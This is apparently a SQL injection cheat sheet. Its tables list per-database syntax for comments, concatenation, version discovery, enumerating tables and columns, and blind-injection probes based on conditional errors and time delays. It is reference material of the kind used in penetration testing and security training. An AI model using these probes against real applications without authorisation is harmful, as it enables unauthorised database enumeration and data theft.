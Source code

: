 #### comments

| syntax | type |
|:---:|:---:|
|```--comment```|*oracle, microsoft, postgresql*|
|```-- comment```|*mysql*|
|```/*comment*/```|*microsoft, postgresql, mysql*|

-----


#### string concatenation

| syntax | type |
|:---:|:---:|
|```'foo'\|\|'bar'```|*oracle, postgresql*|
|```'foo'+'bar'```|*microsoft*|
|```'foo' 'bar'```|*mysql*|
|```CONCAT('foo','bar')```|*mysql*|

-----


#### version

| syntax | type |
|:---:|:---:|
|```SELECT version FROM v$instance```|*oracle*|
|```SELECT banner from v$instance```|*oracle*|
|```SELECT @@version```|*microsoft, mysql*|
|```SELECT version()```|*postgresql*|

-----


#### database contents

| syntax | type |
|:---:|:---:|
|```SELECT * FROM all_tables```|*oracle*|
|```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'```|*oracle*|
|```SELECT * FROM information_schema.tables```|*microsoft, postgresql, mysql*|
|```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'```|*microsoft, postgresql, mysql*|

-----


#### conditional errors

| syntax | type |
|:---:|:---:|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual```|*oracle*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END```|*microsoft*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END```|*postgresql*|
|```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')```|*mysql*|

-----


#### time delays

| syntax | type |
|:---:|:---:|
|```dbms_pipe.receive_message(('a'),10)```|*oracle*|
|```WAITFOR DELAY '0:0:10'```|*microsoft*|
|```SELECT pg_sleep(10)```|*postgresql*|
|```SELECT sleep(10)```|*mysql*|

-----


####